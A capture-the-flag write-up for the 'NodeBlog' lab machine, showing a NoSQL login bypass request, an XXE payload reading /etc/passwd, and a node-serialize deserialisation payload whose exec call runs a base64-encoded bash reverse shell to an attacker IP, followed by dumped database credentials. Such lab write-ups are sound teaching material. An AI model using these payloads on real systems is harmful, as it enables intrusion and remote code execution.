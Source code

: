 ```yaml
---
description: H
---
```


# NodeBlog

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.96.160
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-08 07:30 EST
Nmap scan report for 10.129.96.160
Host is up (0.013s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp
```

### NoSQL Login Bypass

This was a UHC qualifier box in 2021.

<figure><img src="../../../.gitbook/assets/image (11) (2).png" alt=""><figcaption></figcaption></figure>

There was a login functionality there. I tested some SQL Injection but to no avail. Because this was a UHC box, this was probably the way in. I tested some NoSQL injection and it worked in bypassing it!

```http
POST /login HTTP/1.1
Host: 10.129.96.160:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 56
Origin: http://10.129.96.160:5000
Connection: close
Referer: http://10.129.96.160:5000/login
Upgrade-Insecure-Requests: 1

{
"user": "admin",
"password": {"$ne": "admin"}

}
```

<figure><img src="../../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

### XXE Injection

All of the functions do nothing much, except for the Upload one. When trying to upload something, I get this error:

```
Invalid XML Example: Example DescriptionExample Markdown
```

This indidates that we have to upload a malicious XML file to achieve XXE injection for our reverse shell. Taking a look at the POST request in Burpsuite reveals that we need this format:

<figure><img src="../../../.gitbook/assets/image (17) (1).png" alt=""><figcaption></figcaption></figure>

I headed to PayloadAllTheThings to try some XXE injection payloads, and it worked rather well:

```markup
<?xml version="1.0"?>
<!DOCTYPE data [
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<post>
        <title>mypost</title>
        <description>testfile</description>
        <markdown>&file;</markdown>
</post>
```

Then we can save this into a file and upload it. The output would be printed in the `markdown` area:

<figure><img src="../../../.gitbook/assets/image (19) (7).png" alt=""><figcaption></figcaption></figure>

Earlier while testing my NoSQL injections, I did run across an error like this:

<figure><img src="../../../.gitbook/assets/image (16) (1).png" alt=""><figcaption></figcaption></figure>

So the source code files are in `/opt/blog`. A bit more testing revealed the main file to be `server.js`.

```javascript
const express = require(&#39;express&#39;)
const mongoose = require(&#39;mongoose&#39;)
const Article = require(&#39;./models/article&#39;)
const articleRouter = require(&#39;./routes/articles&#39;)
const loginRouter = require(&#39;./routes/login&#39;)
const serialize = require(&#39;node-serialize&#39;)
const methodOverride = require(&#39;method-override&#39;)
const fileUpload = require(&#39;express-fileupload&#39;)
const cookieParser = require(&#39;cookie-parser&#39;);
const crypto = require(&#39;crypto&#39;)
const cookie_secret = &#34;UHC-SecretCookie&#34;
//var session = require(&#39;express-session&#39;);
const app = express()

mongoose.connect(&#39;mongodb://localhost/blog&#39;)

app.set(&#39;view engine&#39;, &#39;ejs&#39;)
app.use(express.urlencoded({ extended: false }))
app.use(methodOverride(&#39;_method&#39;))
app.use(fileUpload())
app.use(express.json());
app.use(cookieParser());
//app.use(session({secret: &#34;UHC-SecretKey-123&#34;}));

function authenticated(c) {
    if (typeof c == &#39;undefined&#39;)
        return false

    c = serialize.unserialize(c)

    if (c.sign == (crypto.createHash(&#39;md5&#39;).update(cookie_secret + c.user).digest(&#39;hex&#39;)) ){
        return true
    } else {
        return false
    }
}


app.get(&#39;/&#39;, async (req, res) =&gt; {
    const articles = await Article.find().sort({
        createdAt: &#39;desc&#39;
    })
    res.render(&#39;articles/index&#39;, { articles: articles, ip: req.socket.remoteAddress, authenticated: authenticated(req.cookies.auth) })
})

app.use(&#39;/articles&#39;, articleRouter)
app.use(&#39;/login&#39;, loginRouter)


app.listen(5000)
```

First thing I notice is that **there is unserialisation going on**. This web application must be vulnerable to RCE through Deserialisation. This article showed up when I searched for this exploit:

{% embed url="https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/" %}

I tested the token given there and it worked: (after URL encoding)

```
%7B%22rce%22%3A%22_%24%24ND_FUNC%24%24_function%28%29%7Brequire%28%27child_process%27%29.exec%28%27ping%20-c%201%2010.10.14.39%27%2C%20function%28error%2C%20stdout%2C%20stderr%29%7Bconsole.log%28stdout%29%7D%29%3B%7D%28%29%22%7D%0A
```

Now, we can replace the `ping` command I used above with a reverse shell:

```bash
%7B%22rce%22%3A%22_%24%24ND_FUNC%24%24_function%28%29%7Brequire%28%27child_process%27%29.exec%28%27echo%20%5C%22YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC4zOS84ODg4IDA%2BJjEK%5C%22%20%7C%20base64%20-d%20%7C%20bash%27%2C%20function%28error%2C%20stdout%2C%20stderr%29%7Bconsole.log%28stdout%29%7D%29%3B%7D%28%29%22%7D%0A
```

This uses base64 to encode the shell one-liner and connect to port 8888.

<figure><img src="../../../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

When trying to read the user flag, I found out that we did not have access to our own home directory. This was because of the permissions set:

```
admin@nodeblog:/home$ ls -la
ls -la
total 16
drwxr-xr-x 1 root  root   10 Dec 27  2021 .
drwxr-xr-x 1 root  root  180 Dec 27  2021 ..
drw-r--r-- 1 admin admin 220 Jan  3  2022 admin
```

We can correct this with `chmod 777 admin`.

## Privilege Escalation

I ran a LinPEAS scan on this machine and found the `mongoDB` credentials file.

```
mongodb      802  0.3  1.8 981772 76124 ?        Ssl  16:38   0:08 /usr/bin/mongod --unixSocketPrefix=/run/mongodb --config /etc/mongodb.conf
```

Earlier we used NoSQL injection to access this, and perhaps we can find the actual credentials for the `admin` user (so that I can check `sudo` privleges). Some DBs and collections can be found here.

<figure><img src="../../../.gitbook/assets/image (10) (1).png" alt=""><figcaption></figcaption></figure>

I could find a password from the users collections.

{% code overflow="wrap" %}
```
>  db.users.find()
{ "_id" : ObjectId("61b7380ae5814df6030d2373"), "createdAt" : ISODate("2021-12-13T12:09:46.009Z"), "username" : "admin", "password" : "IppsecSaysPleaseSubscribe", "__v" : 0 }
```
{% endcode %}

We can use this to check `sudo` privileges and find an easy root path:

<figure><img src="../../../.gitbook/assets/image (14) (1) (2).png" alt=""><figcaption></figcaption></figure>
